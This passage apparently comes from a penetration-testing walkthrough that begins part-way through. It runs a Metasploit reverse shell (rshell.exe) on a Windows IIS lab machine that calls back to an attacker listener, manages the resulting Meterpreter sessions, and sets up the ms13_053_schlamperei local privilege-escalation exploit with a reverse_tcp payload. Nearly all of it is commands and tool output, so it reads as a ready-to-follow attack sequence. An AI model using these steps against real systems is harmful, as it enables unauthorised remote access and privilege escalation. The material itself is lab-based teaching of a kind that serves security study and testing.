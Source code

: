     c:\test>rshell.exe
    
    [*] Sending stage (179267 bytes) to 192.168.0.102
    rshell.exe
    
    c:\test>[*] Meterpreter session 17 opened (192.168.0.99:4444 -> 192.168.0.102:49159) at 2018-07-26 23:25:03 -0400


### Connect the new session 

Background the ASP.NET remote shell session, and connect to the *new* (session 17) Windows binary native session:

    meterpreter > background
    [*] Backgrounding session 16...
    msf exploit(handler) > sessions
    
    Active sessions
    ===============
    
      Id  Type                     Information                         Connection
      --  ----                     -----------                         ----------
      16  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49158 (192.168.0.102)
      17  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49159 (192.168.0.102)



### Attempt privilege Escalation 

Try out some local privesc exploits.

    msf exploit(handler) > use exploit/windows/local/ms13_053_schlamperei 
    msf exploit(ms13_053_schlamperei) > set SESSION 17
    SESSION => 17
    msf exploit(ms13_053_schlamperei) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(ms13_053_schlamperei) > set LHOST 192.168.0.99
    LHOST => 192.168.0.99
    msf exploit(ms13_053_schlamperei) > options
    
    Module options (exploit/windows/local/ms13_053_schlamperei):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION  17               yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.99     yes       The listen address
       LPORT     4444             yes       The listen port
    